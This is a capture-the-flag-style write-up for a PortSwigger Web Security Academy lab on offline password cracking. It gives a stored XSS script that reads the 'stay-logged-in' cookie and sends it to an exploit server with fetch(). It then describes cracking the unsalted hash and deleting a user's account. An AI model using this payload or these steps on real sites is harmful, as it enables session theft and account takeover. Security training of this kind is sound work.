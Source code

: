 # Lab: Offline password cracking

- [Link](https://portswigger.net/web-security/authentication/other-mechanisms/lab-offline-password-cracking)

## Tips

I'll try to give some tips that can be useful in the solution. The first is, obviously, be curious. Try to explore what you can do with a XSS vulnerabilities. If you're new in this kind of things like me, try to give some `alert` to see if you can show the cookie in an alert box. I recommend you to try to use the [`CookieStore`](https://developer.mozilla.org/en-US/docs/Web/API/CookieStore) instead of [`Document.cookie`](https://developer.mozilla.org/en-US/docs/Web/API/Document/cookie) since it can give you more directly the cookie value, without much string manipulation.

After you get the cookie, try to play a little with the `Exploit Server`. How can you make requests, how the requests are logged (see the `Access log`!) and how the server works. Try to answer those questions before proceeding to the next step.

With a good understanding on how the `Exploit Server` works, it's time to make a request to it with the cookie you gathered! Try to that and see if you can it through the `Exploit Server`!

This is how I could get it to work! See only if you don't know what to do!
<details>
<summary>Click to expand!</summary>
  
```js
<script>
    cookieStore.get("stay-logged-in").then(cookie =>
        fetch(`https://exploit-aca11f671fb9bf51c007053a01600054.web-security-academy.net/${cookie.value}`)
    )
</script>
```
</details>

Well, getting the cookie is one thing, the other is to understand the contents of it! If you took others labs, you easily see the pattern. Otherwise, try to answer the question: what are the known hash algorithms that are vulnerable?

Now that you know what is the hash algorithm used in the cookie, you can start to use a dictionary of passwords to see if you can find which one match the hashed password you found!

Of course, there's another easy way!
<details>
<summary>Click to expand!</summary>

Since we're talking about a hashed password without any salt, we can google it to see if we can find the original string.
  
</details>

Now that you found the password, log in with it and delete `carlos` account to finally see:

![Congratulations, you solved the lab!](./assets/congratulations.png)
